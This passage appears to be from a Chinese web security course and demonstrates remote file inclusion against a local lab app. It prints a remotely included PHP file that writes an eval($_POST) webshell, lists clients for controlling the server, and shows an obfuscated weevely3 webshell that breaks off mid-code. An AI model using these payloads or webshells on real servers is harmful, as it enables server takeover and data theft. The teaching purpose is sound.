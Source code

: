 <pre class="lang-java" data-nodeid="16647"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=include%2Ffile3.php&amp;submit=%E6%8F%90%E4%BA%A4</span>
</code></pre>
<p data-nodeid="16648">修改 filename 参数为<a href="http://www.1491.com.tw/phpinfo.php" data-nodeid="16805">http:/127.0.0.1/phpinfo.php</a>，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：</p>
<pre class="lang-java" data-nodeid="16649"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/phpinfo.php&amp;submit=%E6%8F%90%E4%BA%A4</span>
</code></pre>
<p data-nodeid="16650">phpinfo 执行成功了：</p>
<p data-nodeid="16651"><img src="https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4DSAJYH3AAQINnkRH5s611.png" alt="图片3.png" data-nodeid="16810"></p>
<div data-nodeid="16652"><p style="text-align:center">图 3  远程文件包含执行 phpinfo</p></div>
<p data-nodeid="16653">接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不用 PHP 后缀是为了避免在自己服务器被执行。</p>
<p data-nodeid="16654">为了演示，我在 <a href="http://127.0.0.1/shell.txth" data-nodeid="16815">http://127.0.0.1/shell.txt</a> 创建文件（如果你没有自己的服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生成一句话木马：</p>
<pre class="lang-php" data-nodeid="16655"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
  $a = <span class="hljs-string">"&lt;?php eval(\$_POST['Cknife'])?&gt;"</span>;
  file_put_contents(<span class="hljs-string">"a.php"</span>,$a);
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="16656">然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：</p>
<pre class="lang-java" data-nodeid="16657"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/shell.txt&amp;submit=%E6%8F%90%E4%BA%A4</span>
</code></pre>
<p data-nodeid="16658">成功生成一句话木马文件 a.php：</p>
<pre class="lang-java" data-nodeid="16659"><code data-language="java">sudo docker exec -it 7286434c6e88 /bin/bash
root@7286434c6e88:/# cat /var/www/html/a.php
&lt;?php eval($_POST['Cknife'])?&gt;
</code></pre>
<p data-nodeid="16660">与《13 | 文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方法一样，你可以用 Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以直接控制服务器了，此处不再赘述。</p>
<p data-nodeid="16661">前面介绍的一句话木马比较容易被检测到，个人喜欢使用 <a href="https://github.com/epinna/weevely3" data-nodeid="16825">weevely3</a>，因为它支持变形的一句话木马：</p>
<pre class="lang-java" data-nodeid="16662"><code data-language="java">$ python3 weevely.py
[+] weevely <span class="hljs-number">4.0</span><span class="hljs-number">.1</span>
[!] Error: the following arguments are required: path
[+] Run terminal or command on the target
&nbsp; &nbsp; weevely &lt;URL&gt; &lt;password&gt; [cmd]
[+] Recover an existing session
&nbsp; &nbsp; weevely session &lt;path&gt; [cmd]
[+] Generate <span class="hljs-keyword">new</span> agent
&nbsp; &nbsp; weevely generate &lt;password&gt; &lt;path&gt;
$ python3 weevely.py generate <span class="hljs-string">'test'</span> ./shell.php
Generated <span class="hljs-string">'./shell.php'</span> with password <span class="hljs-string">'test'</span> of <span class="hljs-number">761</span> <span class="hljs-keyword">byte</span> size.
</code></pre>
<p data-nodeid="16663">看下生成的 shell.php 代码，可以看到其内容都是经过混淆的，肉眼是很难直接看懂的，有助于逃过一些木马的查杀。</p>
<pre class="lang-php" data-nodeid="16664"><code data-language="php">$ cat shell.php
<span class="hljs-meta">&lt;?php</span>
$S=<span class="hljs-string">'!("/$^!kh(.+^!)^!$kf/",@file^!_g^!et_content^!s("p^!hp^!://input"),$m^!)=^!=1) {@ob_star^!t^!();@ev'</span>;
$p=<span class="hljs-string">'$^!k^!="098f6bcd";$kh="4^!62^!1d373c^!ad^!e";$kf^!="4e832627b^!4f6";$p="q^!BSPYX^!xS^!wBm8fbHZ";f^!u'</span>;
$x=<span class="hljs-string">'=0;($^!j&lt;$c&amp;&amp;$i&lt;$^!l);$j++^!,$i^!++){$^!o.=$t{^!$i^!}^$k{^!$^!j};}}return $o;}if^! (^!@preg_match^'</span>;
$Y=<span class="hljs-string">'^!al(^!@gzunc^!omp^!res^!s(@x(@base^!64_d^!ecode($m[^!1]),$k)));$^!o=@o^!b_get_conte^!nts()^!;@ob_e'</span>;
$k=str_replace(<span class="hljs-string">'ha'</span>,<span class="hljs-string">''</span>,<span class="hljs-string">'hacreathae_hafhaunhahaction'</span>);